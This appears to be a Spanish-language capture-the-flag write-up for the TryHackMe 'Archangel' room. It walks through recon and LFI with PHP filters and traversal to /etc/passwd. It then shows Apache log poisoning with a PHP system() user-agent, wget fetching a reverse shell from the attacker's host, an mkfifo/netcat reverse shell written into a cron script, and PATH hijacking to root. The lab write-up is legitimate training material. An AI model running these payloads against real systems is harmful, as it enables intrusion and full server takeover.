 Bienvenidos nuevamente a otra sala de TryHackMe. En esta sala enumeraremos los servicios, descubriremos nuevos host y como añadirlos para que nos brinden acceso. Haremos uso de #Burp-Suite , pasaremos su seguridad utilizando #LFI ,con filtros php, para obtener credenciales en el sistema, escalaremos privilegios mediante las actividades cron para acceder al usuario y luego escalar al sistema raiz!

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`  

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-03-27 18:52:23 EDT for 23s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Nuestro escaneo nos muestra 2 puertos abierots, con servicios ssh y http. Alojados en distribucion Ubuntu y servidor Apache en sistema operativo Linux.

Seguimos nuestro reconocimiento, buscando posibles pistas que nos pueda brindar la pagina. Si observamos la fuente de pagina o la pagina en si, tendremos una informacion mail de contacto, terminada en "__mafialive.thm__". SI intentamos navegar a este enlance, no nos dara respuesta y quedara cargando. En estos casos, tendremos que agregar el enlance con la IP del servidor para poder acceder con exito. Para ello, utilizaremos `sudo nano /etc/hosts` y pegaremos la IP seguido del enlance al que queremos acceder.

> IPTARGET mafialive.thm

Una vez agregado, podremos acceder al sitio web.

# Enumeration

La enumeracion es clave, y si que es cierto!. Utilizaremos la herramienta __gobuster__ para enumerar directorios ocultos dentro del sitio web. Ejecutaremos `gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/seclists/Discovery/Web-content/Common.txt`

```ruby
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/24 16:30:43 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 59]
/robots.txt           (Status: 200) [Size: 34] ---> 'directorio oculto'
/server-status        (Status: 403) [Size: 278]
Progress: 4704 / 4714 (99.79%)
===============================================================
2023/04/24 16:32:30 Finished
```

Obtenemos el directorio "/robots.txt", es un archivo de texto que se encuentra en la raíz de un sitio web y que se utiliza para comunicar a los robots de los motores de búsqueda qué partes del sitio web deben ser indexadas o no.

En este caso, al navegar hacie el, podremos ver otro directorio que nos lleva a otro enlance donde hay un boton "/test.php"

# Exploit

Para esta tarea, haremos uso de la vulnerabilidad #LFI (__Local FIle Inclusion__). Con esta vulnerabilidad, podremos abusarnos y enumerar informacion como credenciales, base de datos, archivos de configuracion, entre otros. Siempre que querramos utilizar esta tecnica, es muy recomendable mirar el enlance y que contenga "test.php?view=", asi podremos ejectuar codigo malicioso dentro del enlance.

Utilizaremos filtros php para poder leer la 2da flag de la sala. El filtro que utilizaremos, convertira la respuesta en codigo base64 `pHp://FilTer/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

Para decodificarla utilizamos `echo "RESPUESTA" | base64 -d`.

Podremos ver las credenciales utilizando `http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//etc/passwd`

Ya tendremos un usuario : `archangel`

Ahora que sabemos que es vulnerable a #LFI podremos hacer uso de #LFI2RCE
que se utiliza para aprovechar una vulnerabilidad de inclusión de archivos locales (__LFI__) en una aplicación web y lograr la ejecución remota de código (__RCE__) en el servidor afectado.
 Lo que nos permite lograr la ejecución remota de código en el servidor afectado.

Para inicar nuestro exploit, inciaremos #Burp-Suite e interceptaremos en el siguiente enlace`http://mafialive.thm/test.phpview=/var/www/html/development_testing//..//..//..//..//etc/passwd`
Enviaremos la respuesta al Repeater, modificaremos el agente de usuario y GET, para ejecutar codigo malicioso y transportar nuestra shell. Esta modificacion, nos permitira utilizar la terminal dentro de su sistema, asi podremos transportar nuestro script malicioso y obtener una respuesta en nuestra maquina atacante. Abrimos un servidor python dentro del directorio donde tengamos nuestra __reverse-shell__ : `python3 -m http.server 80` y modificamos nuestro __Burp-Suite__ :

```ruby
GET:/test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&cmd="COMMAND-HERE" HTTP/1.1

USER-AGENT: <?php system($_GET['cmd']); ?>

Resultado final :

GET: /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&cmd=wget%20http://LHOST:80/rev.php HTTP/1.1

USER-AGENT: <?php system($_GET['cmd']); ?>
```

Luego, nos pondremos en escucha `nc -nvlp LPORT` y nos dirigimos donde almacenamos nuestra shell http://mafialive.thm/rev.php

Upgradeamos nuestra terminal `python3 -c 'import pty;pty.spawn("/bin/bash")'`

# Priv. Escalation

Para escalar privilegios, listaremos las actividades cron `cat /etc/crontab`
```ruby
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Nos muestra que el usuario archangel tiene privilegios en un script alojado en /opt llamado "helloworld.sh". Para escalar al usuario archangel, abriremos otra terminal en nuestra maquina atacante y nos pondremos en escucha con un puerto diferente `nc -nvlp 3333`
Luego, suplantaremos el script de archangel por una reverse shell nuestra. Para ello, ejecutaremos un echo y que se sobreescriba el contenido de "helloworld.sh" `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.121 3333 >/tmp/f" > helloworld.sh`.

Ahora tan solo esperamos unos minutos y ya tendremos nuestra respuesta con usuario archangel. Nuevamente upgradeamos nuestra terminal `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Para escalar privilegios al sistema raiz, listaremos con __ls__ y podremos ver un directorio nombrado "secret". Luego de cambiar de directorio listaremos nuevamente `ls -lah` que nos mostrara los permisos de cada archivo, en el cual hay un "__backup__" que tiene permisos __root__. 
Para poder abusarnos y escalar al sistema raiz, tendremos que dirigirnos al directorio __/tmp__, luego crearemos una instancia shell en Bash con el indicador "__-p__" que activa el modo privilegiado  __/bin/bash__ utilizando echo, le daremos permisos al archivo para que pueda ejecutarse y luego modificaremos la variable del entorno __$PATH__ para ejecutar el archivo "__backup__" y generar una shell con usuario root!.

Los pasos a seguir :

> `cd secret`--->  Cambiamos directorio /secret
> `ls -la` --->  Listamos permisos
> `./backup` ---> Ejecutamos backup
> `cd /tmp` ---> Cambiamos directorio /tmp
> `echo '/bin/bash -p' > cp` ---> Creamos un archivo "cp" con instancia en /bin/bash privilegiada
> `chmod +x cp` ---> Le daremos permisos de ejecucion
> `ls -la | grep cp` ---> Listamos para corroborar que se creo el archivo
> `export PATH=/tmp:$PATH` ---> Modificamos la varible del entorno a /tmp
> `echo $PATH`  ---> Corroboramos que fue existoso
> `cd home/archangel/secret` ---> Cambiamos de directorio 
> `./backup` ---> Ejecutamos backup
